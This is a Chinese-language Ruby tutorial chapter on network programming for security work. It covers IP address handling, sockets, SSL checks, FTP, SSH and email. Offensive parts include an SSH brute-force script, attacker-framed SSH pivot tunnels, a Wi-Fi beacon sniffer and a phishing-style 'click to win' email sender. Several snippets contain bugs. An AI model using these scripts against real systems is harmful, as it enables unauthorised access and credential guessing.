

# 模块 0x3 | 网络功夫

# 模块 0x3 | 网络功夫

## IP 地址操作

在网络编程中，我们总是对 IP 地址执行一些操作。以下是一些示例。

+   从 IP 地址和子网掩码计算 IP 地址的网络前缀。

+   从 IP 地址和子网掩码计算 IP 地址的主机部分。

+   计算子网中的主机数量。

+   检查 IP 地址是否属于子网。

+   将点十进制表示法的子网掩码转换为整数。

Ruby 提供了用于 IP 地址基本操作的类(IPAddr)，可用于执行上述所有操作。

```
require 'ipaddr'
ip = IPAddr.new("192.34.56.54/24") 
```

### 从 IP 地址和子网掩码计算 IP 地址的网络前缀。

一个简单的 mask 方法调用将给出 IP 地址的网络前缀部分。它只是 IP 地址与子网掩码的按位掩码。

```
require 'ipaddr'
ip = IPAddr.new(ARGV[0])
network_prefix = ip.mask(ARGV[1])
puts network_prefix 
```

运行它

```
ruby ip_example.rb 192.168.5.130 24
# Returns
192.168.5.0 
```

### 从 IP 地址和子网掩码计算 IP 地址的主机部分。

计算主机部分并不像 IP 地址的网络部分那样简单。我们首先计算子网掩码的补码。

子网(24) : 11111111.11111111.11111111.00000000

neg_subnet(24) : 00000000.00000000.00000000.11111111

我们使用否定(~)和掩码方法来计算子网掩码的补码，然后简单地在 IP 和子网掩码的补码之间执行按位 AND 操作

```
require 'ipaddr'
ip = IPAddr.new(ARGV[0])
neg_subnet = ~(IPAddr.new("255.255.255.255").mask(ARGV[1]))
host = ip & neg_subnet
puts host 
```

运行它

```
ruby ip_example.rb 192.168.5.130 24
# Returns
0.0.0.130 
```

### 计算子网中的主机数量。

我们使用 to_range 方法创建所有 IP 的范围，然后使用 count 方法计算范围内的 IP 数。我们将数字减少两个以排除网关和广播 IP 地址。

```
require 'ipaddr'
ip=IPAddr.new("0.0.0.0/#{ARGV[0]}")
puts ip.to_range.count-2 
```

运行它

```
ruby ip_example.rb 24
254 
```

### 检查 IP 地址是否属于子网。

`===` 是 include? 的别名，如果 IP 地址属于范围，则返回 true，否则返回 false。

```
require 'ipaddr'
net=IPAddr.new("#{ARG[0]}/#{ARGV[1]}")
puts net === ARGV[2] 
```

运行它

```
ruby ip_example.rb 192.168.5.128 24 192.168.5.93
true 
```

```
ruby ip_example.rb 192.168.5.128 24 192.168.6.93
false 
```

### 将点十进制表示法的子网掩码转换为整数。

我们将子网掩码视为 IP 地址，并使用 `to_i` 将其转换为整数，然后使用 `to_s(2)` 将整数转换为二进制形式。一旦我们有了二进制形式，我们就使用 `count("1")` 计算数字 1 的出现次数。

```
require 'ipaddr'
subnet_mask = IPAddr.new(ARGV[0])
puts subnet_mask.to_i.to_s(2).count("1").to_s 
```

运行它

```
ruby ip_example.rb 255.255.255.0
24 
```

### 将 IP 转换为其他格式

#### IP 十进制转换为点分十进制表示法

```
require 'ipaddr'
IPAddr.new(3232236159, Socket::AF_INET).to_s 
```

或

```
[3232236159].pack('N').unpack('C4').join('.') 
```

#### IP 点分十进制表示法转换为十进制

```
require 'ipaddr'
IPAddr.new('192.168.2.127').to_i 
```

这部分内容基本引用自 [Ruby 中的 IP 地址操作](http://www.brownfort.com/2014/09/ip-operations-ruby/) 主题

## IP 地理位置

由于攻击调查或其他原因，您可能需要了解有关 IP 位置的更多信息。

### GeoIP

geoip 库的特殊之处在于它是一个离线数据库的 API，您可以从 [www.maxmind.com](http://www.maxmind.com) 下载。MaxMind 有一些免费数据库，您也可以订阅数据库版本。

+   下载免费的 GeoLite 国家、城市或 ASN 数据库之一

    +   GeoLiteCountry

    +   GeoLiteCity

    +   GeoIPASNum

+   安装 geoip gem

    ```
    gem install geoip 
    ```

+   用法

```
#!/usr/bin/env ruby

ip = ARGV[0]
geoip = GeoIP.new('GeoLiteCity.dat')
geoinfo = geoip.country(ip).to_hash

puts "IP address:\t"   + geoinfo[:ip]
puts "Country:\t"      + geoinfo[:country_name]
puts "Country code:\t" + geoinfo[:country_code2]
puts "City name:\t"    + geoinfo[:city_name]
puts "Latitude:\t"     + geoinfo[:latitude]
puts "Longitude:\t"    + geoinfo[:longitude]
puts "Time zone:\t"    + geoinfo[:timezone] 
```

```
-> ruby ip2location.rb 108.168.255.243

IP address:     108.168.255.243
Country:        United States
Country code:   US
City name:      Dallas
Latitude:       32.9299
Longitude:      -96.8353
Time zone:      America/Chicago 
```

* * *

+   [RubyDoc | IPAddr](http://ruby-doc.org/stdlib-1.9.3/libdoc/ipaddr/rdoc/IPAddr.html)

# Ruby Socket

# Ruby Socket

## 轻量级介绍

### Ruby Socket 类层次结构

要了解 Ruby 中的套接字层次结构，这里有一个简单的树来解释它。

```
IO                              # The basis for all input and output in Ruby
└── BasicSocket                 # Abstract base class for all socket classes
    ├── IPSocket                # Super class for protocols using the Internet Protocol (AF_INET)
    │   ├── TCPSocket           # Class for Transmission Control Protocol (TCP) sockets
    │   │   ├── SOCKSSocket     # Helper class for building TCP socket servers applications
    │   │   └── TCPServer       # Helper class for building TCP socket servers
    │   └── UDPSocket           # Class for User Datagram Protocol (UDP) sockets
    ├── Socket                  # Base socket class that mimics that BSD Sockets API. It provides more operating system specific functionality
    └── UNIXSocket              # Class providing IPC using the UNIX domain protocol (AF_UNIX)
        └── UNIXServer          # Helper class for building UNIX domain protocol socket servers 
```

我将详细提及一些`Socket::Constants`，因为我没有找到明显的参考列表，除了[Programming Ruby1.9 *The Pragmatic Programmers' Guide*](http://media.pragprog.com/titles/ruby3/app_socket.pdf)；否则，您可以从命令行中使用`ri Socket::Constants`，这是获取每个常量描述的好方法。

### 套接字类型

+   SOCK_RAW

+   SOCK_PACKET

+   SOCK_STREAM

+   SOCK_DRAM

+   SOCK_RDM

+   SOCK_SEQPACKET

### 地址族（套接字域）

+   AF_APPLETALK

+   AF_ATM

+   AF_AX25

+   AF_CCITT

+   AF_CHAOS

+   AF_CNT

+   AF_COIP

+   AF_DATAKIT

+   AF_DEC

+   AF_DLI

+   AF_E164

+   AF_ECMA

+   AF_HYLINK

+   AF_IMPLINK

+   AF_INET(IPv4)

+   AF_INET6(IPv6)

+   AF_IPX

+   AF_ISDN

+   AF_ISO

+   AF_LAT

+   AF_LINK

+   AF_LOCAL(UNIX)

+   AF_MAX

+   AF_NATM

+   AF_NDRV

+   AF_NETBIOS

+   AF_NETGRAPH

+   AF_NS

+   AF_OSI

+   AF_PACKET

+   AF_PPP

+   AF_PUP

+   AF_ROUTE

+   AF_SIP

+   AF_SNA

+   AF_SYSTEM

+   AF_UNIX

+   AF_UNSPEC

### 套接字协议

+   IPPROTO_SCTP

+   IPPROTO_TCP

+   IPPROTO_UDP

### 协议族

+   PF_APPLETALK

+   PF_ATM

+   PF_AX25

+   PF_CCITT

+   PF_CHAOS

+   PF_CNT

+   PF_COIP

+   PF_DATAKIT

+   PF_DEC

+   PF_DLI

+   PF_ECMA

+   PF_HYLINK

+   PF_IMPLINK

+   PF_INET

+   PF_INET6

+   PF_IPX

+   PF_ISDN

+   PF_ISO

+   PF_KEY

+   PF_LAT

+   PF_LINK

+   PF_LOCAL

+   PF_MAX

+   PF_NATM

+   PF_NDRV

+   PF_NETBIOS

+   PF_NETGRAPH

+   PF_NS

+   PF_OSI

+   PF_PACKET

+   PF_PIP

+   PF_PPP

+   PF_PUP

+   PF_ROUTE

+   PF_RTIP

+   PF_SIP

+   PF_SNA

+   PF_SYSTEM

+   PF_UNIX

+   PF_UNSPEC

+   PF_XTP

### 套接字选项

+   SO_ACCEPTCONN

+   SO_ACCEPTFILTER

+   SO_ALLZONES

+   SO_ATTACH_FILTER

+   SO_BINDTODEVICE

+   SO_BINTIME

+   SO_BROADCAST

+   SO_DEBUG

+   SO_DETACH_FILTER

+   SO_DONTROUTE

+   SO_DONTTRUNC

+   SO_ERROR

+   SO_KEEPALIVE

+   SO_LINGER

+   SO_MAC_EXEMPT

+   SO_NKE

+   SO_NOSIGPIPE

+   SO_NO_CHECK

+   SO_NREAD

+   SO_OOBINLINE

+   SO_PASSCRED

+   SO_PEERCRED

+   SO_PEERNAME

+   SO_PRIORITY

+   SO_RCVBUF

+   SO_RCVLOWAT

+   SO_RCVTIMEO

+   SO_RECVUCRED

+   SO_REUSEADDR

+   SO_REUSEPORT

+   SO_SECURITY_AUTHENTICATION

+   SO_SECURITY_ENCRYPTION_NETWORK

+   SO_SECURITY_ENCRYPTION_TRANSPORT

+   SO_SNDBUF

+   SO_SNDLOWAT

+   SO_SNDTIMEO

+   SO_TIMESTAMP

+   SO_TIMESTAMPNS

+   SO_TYPE

+   SO_USELOOPBACK

+   SO_WANTMORE

+   SO_WANTOOBFLAG

## 创建套接字模板

```
Socket.new(domain, socktype [, protocol]) 
```

**domain（地址/协议族）：**像 AF_INET，PF_PACKET 等

**socktype：**像 SOCK_RAW，SOCK_STREAM

**协议：**默认情况下，它是`0`，应该是一个定义的协议（我们稍后会操纵它）

## TCP 套接字

**服务器/客户端生命周期**

```
 Client        Server
              |             |                  
   socket     +             +      socket
              |             |
   connect    +--------,    +      bind
              |         |   |
   write ,--> +------,  |   +      listen
         |    |      |  |   |
   read  `----+ <--, |  `-> +      accept
              |    | |      |
   close      +--, | `----> + <--, read <--,
                 | |        |    |         |
                 | `--------+----' write   ٨
                 |                         |
                 `----->------>------->----` 
```

### 通用套接字使用

#### 获取本地 IP 地址列表

```
require 'socket'
Socket.ip_address_list 
```

#### 获取主机名

```
Socket.gethostname 
```

### TCP 服务器

这里我们将展示一个绝对的 TCP 服务器。该服务器将接受来自一个客户端的连接，并在连接后向其发送一条消息，然后关闭客户端和服务器的连接。

```
require 'socket'

server = TCPServer.new('0.0.0.0', 9911) # Server, binds/listens all interfaces on port 9911
client = server.accept                  # Wait for client to connect
rhost  = client.peeraddr.last           # peeraddr, returns remote [address_family, port, hostname, numeric_address(ip)]
client.puts "Hi TCP Client! #{rhost}"   # Send a message to the client once it connect
client.gets.chomp                       # Read incoming message from client
client.close                            # Close the client's connection
server.close                            # Close the TCP Server 
```

**注意：**如果要监听未使用和随机端口，请设置为端口 0，Ruby 将找到空闲端口然后使用它。例如。

```
require 'socket'
server = TCPServer.new('0.0.0.0', 0)
server.addr[1]    # Shows the picked port 
```

### TCP 客户端

```
require 'socket'

client = TCPSocket.new('127.0.0.1', 9911)   # Client, connects to server on port 9911
rhost  = client.peeraddr.last               # Get the remote server's IP address 
client.gets.chomp
client.puts "Hi, TCP Server #{rhost}"
client.close 
```

您可以为当前连接设置超时/时间间隔，以防服务器的响应延迟且套接字仍处于打开状态。

```
timeval = [3, 0].pack("l_2")        # Time interval 3 seconds 
client.setsockopt Socket::SOL_SOCKET, Socket::SO_RCVTIMEO, timeval      # Set socket receiving time interval 
client.setsockopt Socket::SOL_SOCKET, Socket::SO_SNDTIMEO, timeval      # Set socket sending time interval
client.getsockopt(Socket::SOL_SOCKET, Socket::SO_RCVTIMEO).inspect      # Optional, Check if socket option has been set
client.getsockopt(Socket::SOL_SOCKET, Socket::SO_SNDTIMEO).inspect      # Optional, Check if socket option has been set 
```

有一些`puts`和`gets`方法的替代方法。您可以使用 Pry 解释器控制台中的 method 方法查看差异及其类。

```
>> s = TCPSocket.new('0.0.0.0', 9911)
=> #<TCPSocket:fd 11>
>> s.method :puts
=> #<Method: TCPSocket(IO)#puts>
>> s.method :write
=> #<Method: TCPSocket(IO)#write>
>> s.method :send
=> #<Method: TCPSocket(BasicSocket)#send> 
```

```
>> s = TCPSocket.new('0.0.0.0', 9911)
=> #<TCPSocket:fd 11>
>> s.method :gets
=> #<Method: TCPSocket(IO)#gets>
>> s.method :read
=> #<Method: TCPSocket(IO)#read>
>> s.method :recv
=> #<Method: TCPSocket(BasicSocket)#recv> 
```

## UDP 套接字

### UDP 服务器

```
require 'socket'

server = UDPSocket.new                                  # Start UDP socket
server.bind('0.0.0.0', 9911)                            # Bind all interfaces to port 9911
mesg, addr = server.recvfrom(1024)                      # Receive 1024 bytes of the message and the sender IP
server puts "Hi, UDP Client #{addr}", addr[3], addr[1]  # Send a message to the client 
server.recv(1024)                                       # Receive 1024 bytes of the message 
```

### UDP 客户端

```
require 'socket'
client = UDPSocket.new
client.connect('localhost', 9911)       # Connect to server on port 991
client.puts "Hi, UDP Server!", 0        # Send message 
server.recv(1024)                       # Receive 1024 bytes of the server message 
```

有用于发送和接收的替代方法，找出来，[RubyDoc](http://ruby-doc.org/stdlib-2.0.0/libdoc/socket/rdoc/UDPSocket.html)。

## GServer

GServer 标准库实现了一个通用服务器，具有线程池管理、简单日志记录和多服务器管理功能。可以使用这个类来实现任何类型的应用级服务器：

+   它可以接受来自客户端的多个同时连接

+   多个服务（即每个 TCP 端口一个服务）

    +   可同时运行，

    +   可以通过类方法 `GServer.stop(port)` 随时停止

+   所有线程问题都已处理

+   所有事件都可以选择记录

+   非常基本的 GServer

```
require 'gserver'

class HelloServer < GServer                 # Inherit GServer class
  def serve(io)
    io.puts("What's your name?")
    line = io.gets.chomp
    io.puts "Hi, #{line}!"
    self.stop if io.gets =~ /shutdown/      # Stop the server if you get shutdown string
  end
end

server = HelloServer.new(1234, '0.0.0.0')   # Start the server on port 1234
server.audit = true     # Enable logging
server.start            # Start the service 
server.join 
```

# SSL/TLS

# SSL/TLS

与 SSL/TLS 连接一起工作是一项非常重要的工作，有两种形式。**(1)** 安全的 HTTP 连接。**(2)** 安全套接字。为了减少冗余，我将在本节中处理这两种情况，而不是��� http 部分放在 Web Kung Fu 部分下。

## 证书验证

### 验证 HTTPS 证书

**validate_https_cert.rb**

```
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'open-uri'

def validate_https_cert(target)  begin
    open("https://#{target}")
    puts '[+] Valid SSL Certificate!'
  rescue OpenSSL::SSL::SSLError
    puts '[+] Invalid SSL Certificate!'
  end
end

good_ssl = 'google.com'
bad_ssl  = 'expired.badssl.com'

validate_https_cert good_ssl
validate_https_cert bad_ssl 
```

### 验证安全套接字证书

**validate_socket_cert.rb**

```
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'socket'
require 'openssl'

def validate_socket_cert(target)
  ssl_context = OpenSSL::SSL::SSLContext.new  
  ssl_context.verify_mode = OpenSSL::SSL::VERIFY_PEER  
  cert_store = OpenSSL::X509::Store.new  
  cert_store.set_default_paths  
  ssl_context.cert_store = cert_store  
  socket = TCPSocket.new(target, 443)  
  ssl_socket = OpenSSL::SSL::SSLSocket.new(socket, ssl_context)  
  begin    
    ssl_socket.connect    
    puts '[+] Valid SSL Certificate!'  
  rescue OpenSSL::SSL::SSLError    
    puts '[+] Invalid SSL Certificate!'  
  end
end

good_ssl = 'google.com'
bad_ssl  = 'expired.badssl.com'

validate_socket_cert good_ssl
validate_socket_cert bad_ssl 
```

### 将所有内容整合在一起

**ssl_validator.rb**

```
#!/usr/bin/env ruby
#
# SSL/TLS validator
# KING SABRI | @KINGSABRI
#

def validate_ssl(target, conn_type=:web)

  case conn_type
    # Web Based SSL
    when :web
      require 'open-uri'

      begin
        open("https://#{target}")
        puts '[+] Valid SSL Certificate!'
      rescue OpenSSL::SSL::SSLError
        puts '[+] Invalid SSL Certificate!'
      end
    # Socked Based SSL
    when :socket
      require 'socket'
      require 'openssl'

      ssl_context = OpenSSL::SSL::SSLContext.new
      ssl_context.verify_mode = OpenSSL::SSL::VERIFY_PEER
      cert_store = OpenSSL::X509::Store.new
      cert_store.set_default_paths
      ssl_context.cert_store = cert_store
      socket = TCPSocket.new(target, 443)
      ssl_socket = OpenSSL::SSL::SSLSocket.new(socket, ssl_context)

      begin
        ssl_socket.connect
        puts '[+] Valid SSL Certificate!'
      rescue OpenSSL::SSL::SSLError
        puts '[+] Invalid SSL Certificate!'
      end

    else
      puts '[!] Unknown connection type!'
  end

end

good_ssl = 'google.com'
bad_ssl  = 'expired.badssl.com'

validate_ssl(bad_ssl, :web)
validate_ssl(bad_ssl, :socket)

validate_ssl(good_ssl, :web)
validate_ssl(good_ssl, :socket) 
```

运行它

```
ruby ssl_validator.rb

[+] Invalid SSL Certificate!
[+] Invalid SSL Certificate!
[+] Valid SSL Certificate!
[+] Valid SSL Certificate! 
```

# SSID 查找器

# SSID 查找器

了解如何使用 Ruby 套接字的较低级别，并看看它有多强大。正如我所经历的，这取决于你对即将使用的协议的了解程度。我尝试使用 `Packetfu` gem 来实现这个任务，但它还不具备协议意识。所以我启动了我的 Wireshark（过滤器：`wlan.fc.type_subtype == 0x08`）并开始检查无线信标结构，查看如何通过 Ruby 套接字进一步降低到更低级别套接字，而不仅仅是处理 TCP 和 UDP 套接字。

主要任务是

+   进入非常低级别的套接字（第二层）

+   接收每个数据包，无论是什么协议

+   接收原始数据包以便根据我从 Wireshark 学到的知识进行处理

我查阅了下面提到的所有参考资料，还查看了 `/usr/include/linux/if_ether.h`，这让我对 `ETH_P_ALL` 的含义有了一些了解。此外，`man socket` 对我非常有帮助。

**注意：** 网卡接口必须设置为监控模式，使用 airmon-ng 进行设置

```
# Run you network car on monitoring mode
airmon-ng start wls1

# Check running monitoring interfaces
airmon-ng 
```

```
#!/usr/bin/env ruby
require 'socket'

# Open a Soccket as (very low level), (receive as a Raw), (for every packet(ETH_P_ALL))
socket = Socket.new(Socket::PF_PACKET, Socket::SOCK_RAW, 0x03_00)

puts "\n\n"
puts "       BSSID       |       SSID        "  
puts "-------------------*-------------------"
while true
  # Capture the wire then convert it to hex then make it as an array
  packet = socket.recvfrom(2048)[0].unpack('H*').join.scan(/../)
  #
  # The Beacon Packet Pattern:
  # 1- The IEEE 802.11 Beacon frame starts with 0x08000000h, always!
  # 2- The Beacon frame value located at the 10th to 13th byte
  # 3- The number of bytes before SSID value is 62 bytes
  # 4- The 62th byte is the SSID length which is followed by the SSID string
  # 5- Transmitter(BSSID) or the AP MAC address which is located at 34 to 39 bytes 
  #
  if packet.size >= 62 && packet[9..12].join == "08000000"   # Make sure it's a Beacon frame
    ssid_length = packet[61].hex - 1                         # Get the SSID's length
    ssid  = [packet[62..(62 + ssid_length)].join].pack('H*') # Get the SSID 
    bssid = packet[34..39].join(':').upcase                  # Get THE BSSID

    puts " #{bssid}" + "    " + "#{ssid}"
  end

end 
```

**参考资料** - *非常有用！*

+   [raw_socket.rb](https://gist.github.com/k-sone/8036832#file-raw_sock-rb)

+   [wifi_sniffer.rb](https://gist.github.com/amejiarosario/5420854)

+   [packetter.rb](https://github.com/lrks/packetter/blob/master/ruby/packetter.rb)

+   [另一个 git](https://gist.github.com/sam113101/aad031bcc50746956a29)

+   [Ruby1.9 编程](http://media.pragprog.com/titles/ruby3/app_socket.pdf)

+   [Rubydocs - class Socket](http://docs.ruby-lang.org/en/2.3.0/Socket.html)

+   [Linux 内核网络 - 高级主题（5）](http://www.haifux.org/lectures/217/netLec5.pdf)

+   [PF_PACKET Protocol Family](http://curioushq.blogspot.com/2011/05/pfpacket-protocol-family.html)

+   [Windows 下的 Ruby 原始套接字](http://curioushq.blogspot.com/2011/05/ruby-raw-socket-for-windows.html)

# FTP

# FTP

处理 FTP 在许多情况下是必需的，让我们看看在 Ruby 中使用 AIO 示例有多容易。

## FTP 客户端

```
require 'net/ftp'

ftp = Net::FTP.new('rubyfu.net', 'admin', 'P@ssw0rd')   # Create New FTP connection
ftp.welcome                                             # The server's welcome message
ftp.system                                              # Get system information
ftp.chdir 'go/to/another/path'                          # Change directory
file.pwd                                                # Get the correct directory
ftp.list('*')                                           # or ftp.ls, List all files and folders
ftp.mkdir 'rubyfu_backup'                               # Create directory
ftp.size 'src.png'                                      # Get file size
ftp.get 'src.png', 'dst.png', 1024                      # Download file
ftp.put 'file1.pdf', 'file1.pdf'                        # Upload file
ftp.rename 'file1.pdf', 'file2.pdf'                     # Rename file
ftp.delete 'file3.pdf'                                  # Delete file
ftp.quit                                                # Exit the FTP session
ftp.closed?                                             # Is the connection closed?
ftp.close                                               # Close the connection 
```

是的，就是这么简单，容易而熟悉。

**提示:** 你可以使用纯套接字库以上述方式完成所有操作，这真的很容易。你可以尝试一下。

## FTP 服务器

+   安装 ftpd gem

    ```
    gem install ftpd 
    ```

```
#
# Pure Ruby FTP server
# KING SABRI | @KINGSABRI
#
require 'ftpd'

class Driver
  attr_accessor :path, :user, :pass
  def initialize(path)
    @path = path
  end

  def authenticate(user, password)
    true
  end

  def file_system(user)
    Ftpd::DiskFileSystem.new(@path)
  end

end

class FTPevil

  def initialize(path=".")
    @driver = Driver.new(File.expand_path(path))
    @server = Ftpd::FtpServer.new(@driver)
    configure_server
    print_connection_info
  end

  def configure_server
    @server.server_name = "Rubyfu FTP Server"
    @server.interface = "0.0.0.0"
    @server.port = 21
  end

  def print_connection_info
    puts "[+] Servername: #{@server.server_name}"
    puts "[+] Interface: #{@server.interface}"
    puts "[+] Port: #{@server.port}"
    puts "[+] Directory: #{@driver.path}"
    puts "[+] User: #{@driver.user}"
    puts "[+] Pass: #{@driver.pass}"
    puts "[+] PID: #{$$}"
  end

  def start
    @server.start
    puts "[+] FTP server started. (Press CRL+C to stop it)"
    $stdout.flush
    begin
      loop{}
    rescue Interrupt
      puts "\n[+] Closing FTP server."
    end
  end
end

if ARGV.size >= 1
  path   = ARGV[0]
else
  puts "[!] ruby #{__FILE__} <PATH>"
  exit
end

FTPevil.new(path).start 
```

运行它

```
ruby ftpd.rb .

Interface: 0.0.0.0
Port: 21
Directory: /tmp/ftp-share
User:
Pass:
PID: 2366
[+] FTP server started. (Press CRL+C to stop it) 
```

# SSH

# SSH

这里我们将展示一些使用 ruby 的 SSH。为此，我们需要安装 net-ssh gem。

+   安装 net-ssh gem

    ```
    gem install net-ssh 
    ```

## 简单的 SSH 命令执行

这是一个非常基本的 SSH 客户端，可以向远程系统发送和执行命令

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end 
```

## 带有 PTY shell 的 SSH 客户端

这里有一个简单的 SSH 客户端，可以为你提供一个交互式 PTY

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Open SSH channel
  session.open_channel do |channel|

    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success|
      raise "Error requesting pty" unless success

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success|
        raise "Error opening shell" unless success
        STDOUT.puts "[+] Getting Remote Shell\n\n" if success
      end
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data
      cmd = gets
      channel.send_data( "#{cmd}" )
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end

    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end

    session.loop
  end
end 
```

## SSH 暴力破解

**ssh-bf.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password,
                   :auth_methods => ["password"], :port => port,
                   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}"
    end

  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}"
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' doesn't accept password authentication method."
  end
end

hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin', 'secret', coffee]

hosts.each do |host|
  users.each do |user|
    passs.each do |password|

      attack_ssh host, user, password

end end end 
```

## SSH 隧道

### 转发 SSH 隧道

```
 |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------| 
```

在**SSH 服务器**上运行 ssh-ftunnel.rb

**ssh-ftunnel.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end 
```

现在通过 RDP 客户端连接到端口 3333 的**SSH 服务器**，你将被提示输入**WebServer**的 RDP 登录界面

```
rdesktop WebServer:3333 
```

### 反向 SSH 隧道

```
 |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |   |                       |                 |                 |
  `->-'                       |-----------------|-----------------| 
```

在**SSH 服务器**上运行 ssh-rtunnel.rb

**ssh-rtunnel.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')

  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end 
```

现在从**SSH 服务器**通过 localhost 的 SSH 端口 SSH 到**localhost**，然后通过 RDP 客户端从 localhost 连接到端口 3333 的 localhost，你将被提示输入**WebServer**的 RDP 登录���面

```
rdesktop localhost:3333 
```

## 通过 SSH 复制文件（SCP）

+   安装 scp gem

    ```
    gem install net-scp 
    ```

+   上传文件

```
require 'net/scp'

Net::SCP.upload!(
                    "SSHServer",
                    "root",
                    "/rubyfu/file.txt", "/root/",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                ) 
```

+   下载文件

```
require 'net/scp'

Net::SCP.download!(
                    "SSHServer",
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  ) 
```

* * *

+   [更多 SSH 示例](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)

+   [Capistranorb.com](http://capistranorb.com/)

+   [Net:SSH 旧文档及示例](http://net-ssh.github.io/ssh/v1/chapter-6.html)

# 电子邮件

# 电子邮件

## 发送邮件

**sendmail.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/smtp'

def send_mail(smtpsrv, username, password, frmemail, dstemail)

  msg  = "From: #{frmemail}\n"
  msg += "To: #{dstemail}\n"
  msg += "Date: #{date}\n"
  msg += "Subject: Email Subject\n"
  msg += "Content-type: text/html\n\n"
  msg += "<strong>winter is coming<br>Hi Jon Snow, Please click to win!</strong>"

  begin
    Net::SMTP.start(smtpsrv, 25, 'localhost', username, password, :login) do |smtp|
      smtp.send_message msg, frmemail, dstemail
    end
    puts "[+] Email has been sent successfully!"
  rescue Exception => e
    puts "[!] Failed to send the mail"
    puts e
  end

end

smtpsrv  = ARGV[0]
username = "admin@attacker.zone"
password = "P@ssw0rd"
frmemail = "admin@attacker.zone"
dstemail = "JonSnow@victim.com"

smtpsrv = ARGV[0]
if smtpsrv.nil?
  puts "[!] IP address Missing \nruby #{__FILE__}.rb [IP ADDRESS]\n\n"
  exit 0
end

send_mail smtpsrv, username, password, frmemail, dstemail 
```

## 读取邮件

**readmail.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# 
require 'net/imap'

host = ARGV[0]
if host.nil?
  puts "[!] IP address Missing \nruby #{__FILE__}.rb [IP ADDRESS]\n\n"
  exit 0
end

username = ARGV[1] || "admin@attacker.zone"
password = ARGV[2] || "P@ssw0rd"

imap = Net::IMAP.new(host, 993, true, nil, false)
imap.login(username, password)      # imap.authenticate('LOGIN', username, password)
imap.select('INBOX')

mail_ids = imap.search(['ALL'])

# Read all emails 
mail_ids.each do |id|
  envelope = imap.fetch(id, "ENVELOPE")[0].attr["ENVELOPE"]
  puts "[+] Reading message, Subject: #{envelope.subject}"
  puts imap.fetch(id,'BODY[TEXT]')[0].attr['BODY[TEXT]']
end

# Delete all emails 
# mail_ids.each do |id|
#   envelope = imap.fetch(id, "ENVELOPE")[0].attr["ENVELOPE"]
#   puts "[+] Deleting message, Subject: #{envelope.subject}"
#   imap.store(id, '+FLAGS', [:Deleted]) # Deletes forever No trash!
# end

imap.close
imap.logout
imap.disconnect 
```

* * *

